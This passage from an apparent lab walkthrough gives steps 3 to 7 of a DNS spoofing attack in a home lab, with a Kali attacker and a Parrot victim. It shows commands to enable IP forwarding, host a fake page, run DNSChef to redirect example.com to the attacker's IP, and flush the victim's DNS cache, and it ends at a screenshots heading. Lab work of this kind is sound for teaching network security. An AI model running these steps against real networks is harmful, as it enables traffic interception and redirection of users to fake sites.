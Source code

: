#### **Step 3: Enable IP Forwarding**

This step is essential to allow the attacker to process the victim's traffic while maintaining basic connectivity for the victim.

```bash
# Enable IP forwarding (temporary until reboot)
echo 1 > /proc/sys/net/ipv4/ip_forward
```
#### **Step 4: Setup Fake Web Server (Port 80)**

A simple web page is created and hosted on the **Kali** machine to confirm the successful redirection.

```bash
# 1. Create a confirmation page
echo "<h1>Success! You have been Spoofed! Welcome to the Fake example.com!</h1>" > index.html

# 2. Start Python's simple HTTP server on port 80 (required for the web redirection)
sudo python3 -m http.server 80
```
#### **Step 5: Launch DNSChef (The Spoofing Tool)**

**DNSChef** is the core tool that performs the spoofing by acting as the fake DNS server.

```bash
# -i: Interface IP to listen on (Attacker's IP)
# --spoofdomains: The domain(s) to intercept
# --fakeip: The IP to return (Attacker's IP, hosting the fake page)

dnschef --interface 192.168.10.10 --spoofdomains example.com --fakeip 192.168.10.10
```
#### **Step 6: Trigger the Spoof (Parrot OS)**

Clear the DNS Cache on the **Parrot** machine to force a fresh DNS request:


```bash
sudo systemd-resolve --flush-cache
```
Open the web browser on **Parrot OS** and navigate to:
`http://example.com`

#### **Step 7: Verification**

* **Attacker (Kali - DNSChef):** The terminal log confirms the **interception of the DNS query** for `example.com` and the **injection of the fake IP address**.
* **Victim (Parrot - Browser):** The browser loads the **"Success! You have been Spoofed! Welcome to the Fake example.com!"** page, successfully **confirming the DNS Spoofing and redirection** to the attacker's server.

# Screenshots: 

## Setting and pinging ips in kali(attacker) and parrot(victim) system:
